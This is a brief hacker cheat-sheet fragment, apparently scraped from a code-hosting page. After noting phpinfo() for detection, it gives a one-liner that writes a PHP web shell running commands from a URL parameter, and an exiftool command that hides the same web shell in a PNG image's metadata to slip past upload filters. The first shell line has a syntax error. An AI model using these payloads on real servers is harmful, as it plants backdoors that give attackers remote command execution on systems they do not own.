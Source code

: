 remember that :
```
<?php phpinfo(); ?>
```
can be used for detection !

####################################


php easy backdoor
```
echo '<?php system($_GET["cmd"];?>' > shell.php
```
inject php backdoor png (not restricted to php as i know)
```
exiftool -comment='<?php system($_GET["cmd"]);?>' shell.png
```


